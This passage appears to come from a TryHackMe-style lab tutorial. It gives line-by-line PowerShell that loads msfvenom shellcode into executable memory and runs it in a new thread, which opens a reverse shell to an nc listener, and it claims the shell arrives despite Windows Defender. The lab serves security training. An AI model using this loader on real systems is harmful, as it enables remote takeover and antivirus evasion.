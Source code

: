 Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press `Enter`.

```shel
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press `Enter`.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

**Note**: If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:

![PowerShell screenshot after executing the script](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732698537726.png)  

Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories.

![successful shell screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727972837925.png)